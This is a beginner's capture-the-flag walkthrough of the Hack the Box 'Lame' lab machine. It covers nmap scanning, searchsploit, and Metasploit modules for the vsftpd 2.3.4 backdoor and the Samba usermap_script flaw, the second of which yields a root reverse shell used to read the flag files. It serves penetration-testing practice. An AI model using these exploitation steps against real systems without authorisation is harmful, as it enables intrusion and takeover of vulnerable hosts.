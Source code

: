 #Walkthrough of Lame Machine – Hack the Box:
1.	In a new terminal window, run `nmap -sV -O -F --version-light 10.10.10.3`
![Image](/Users/ryandinnan/Desktop/Pictures/Picture1.png)
	- Another option is to open **Zenmap** and run a port scan on the same IP (to see just the information on the ports, you can go to the **Ports/Hosts** tab)
        - **Zenmap** is a program that does a really good job at visualizing and breaking down `nmap` commands into digestible bites
    ![Image](/Users/ryandinnan/Desktop/Pictures/Picture2.png)
    ![Image](/Users/ryandinnan/Desktop/Pictures/Picture3.png)
    - Now there a a LOT of different ways to use `nmap`, and being that I'm still learning you are going to be seeing a lot of different versions, but I will do my best to explain what each version does. The two versions used here I got from other tutorials and show different levels of detail when port scanning.
        - The first version we used was `nmap -sV -O -F --version-light 10.10.10.3`
            - `-sV`: Probes open ports to determine service/version info
            - `-O`: Enable OS detection
            - `-F`: Fast mode, scans fewer ports than the default scan
            - `--version-light`: Limit to most likely probes
        - The second version used (as seen in the **Zenmap** screenshot) was `nmap -A -v 10.10.10.3`
            - `-A`: Enable OS detection, version detection, script scanning, and traceroute
            - `-v`: Increase verbosity level (how detailed the process and results are)
2.	You’ll find that there are 4 available ports with different services running on them (21, 22, 139, 445)
3.	Port 21 shows **vsftpd 2.3.4**, let’s check if there are any known vulnerabilities
4.	Run command `searchsploit vsftpd 2.3.4`
	- What this does is search for any [Common Vulnerability and Exploits (CVE)](https://cve.mitre.org/about/index.html) and returns the name and location of the exploit in Kali
    ![Image](/Users/ryandinnan/Desktop/Pictures/Picture4.png)
5.	You'll see that there is one vulnerability, a *"Backdoor Command Execution"*
6.	We can try and use this vulnerability with **Metasploit**
	- **Metasploit** is a very nifty software that has a bunch of CVE exploits saved that can be run automatically
7.	Open **Metasploit** and use the command `search vsftpd 2.3.4`
    ![Image](/Users/ryandinnan/Desktop/Pictures/Picture5.png)
8.	You'll see 4 different options, and the fourth one will be our *"Backdoor Command Execution"* exploit
9.	Copy the address and run `use exploit/unix/ftp/vsftpd_234_backdoor`
10.	Type `show options` and we'll see that we need to set **RHOSTS** to the desired IP
    ![Image](/Users/ryandinnan/Desktop/Pictures/Picture6.png)
11.	Do `set rhost 10.10.10.3`
12.	If we do `show options` again, then we'll see its set and can type `run`
	- What this does is tell **Metalsploit** where to direct the exploit
    ![Image](/Users/ryandinnan/Desktop/Pictures/Picture7.png)
13.	After a little bit, we'll get a message saying, *“Exploit completed, but no session was created”*,    meaning that the exploit was attempted but didn’t' work (if we do some [research](https://www.exploit-db.com/exploits/17491), it turns out that this exploit had since been fixed which is why our attempt failed)
    ![Image](/Users/ryandinnan/Desktop/Pictures/Picture8.png)
14.	Let's continue to check the other option on port 139, **Samba**
15.	Run `search Samba 3.0.20` (which we know from our port scan) and we see two results.
    ![Image](/Users/ryandinnan/Desktop/Pictures/Picture9.png)
16.	We're going to want to focus on the first result, *"'Username map script' Command Execution"*
17.	We search that vulnerability in **Metasploit** with `searchsploit Samba 3.0.20`
    ![Image](/Users/ryandinnan/Desktop/Pictures/Picture10.png)
18.	We got a lot more options this time, but if we scroll through we see that option 15 is our *"username map script" Command Execution* vulnerability and copy the address and run `use exploit/multi/samba/usermap_script`
19.	Again we look at the settings and change the **RHOSTS** to our IP with show options and `set rhost 10.10.10.3` and then we're good to `run`
    ![Image](/Users/ryandinnan/Desktop/Pictures/Picture11.png)
20.	Chances are (unless you set it up before), you'll get the same message from when we ran the **vsftpd 2.3.4 exploit** *“Exploit completed, but no session was created”*, but if you run `show options` again, you'll see a new section
    ![Image](/Users/ryandinnan/Desktop/Pictures/Picture12.png)
21.	Now we have an **LHOST** and **LPORT** section, but the natural **LHOST** is not what we want because HTB gives us our own local IP for when we are on its VPN. You can find yours in the **Access** settings on the HTB website
    ![Image](/Users/ryandinnan/Desktop/Pictures/Picture13.png)
22.	Run `set lhost yourHtbIp` and then try `run` again
23.	You should see some new messages and after a few seconds one that says, *“Command shell session 1 opened”*, and we're in!
    ![Image](/Users/ryandinnan/Desktop/Pictures/Picture14.png)
24.	Now that we have a shell, we can check what kind of privileges we have with `whoami`

    ![Image](/Users/ryandinnan/Desktop/Pictures/Picture15.png)
25.	Turns out we are already in as the root user! Now all we need to do is find the password hashes under user.txt and root.txt
26.	From here we have the option of either digging around in all the files and directories for what we want, or we can use this command `find / -type f -name “nameOfFile”` where nameOfFile will be replaced with user.txt and root.txt
	- This command will return the file address of whatever file you put in place of *"nameOfFile"*. We know what to search for because HTB machines often store the user and root hashes in files named user.txt and root.txt
    ![Image](/Users/ryandinnan/Desktop/Pictures/Picture16.png)
27.	Once we find the locations of the two files, we can just run `cat fileAddress` where fileAddress is what we got with the find command
28.	Take those hashes and submit them on your HTB account and get the points!

##Resources
- [Official Lame Writeup from Hack the Box](https://www.hackthebox.eu/home/machines/writeup/1)
- [Tutorial from freecodecamp.org](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-lame/)
- [`nmap` Command Help](https://nmap.org/book/man-briefoptions.html)

######<font size="1">075 108 097 108 106 097 112 099 108 032 083 112 108 098 097 108 117 104 117 097 032 068 112 115 115 112 104 116 032 090 118 116 108 121 122 108 097</font>
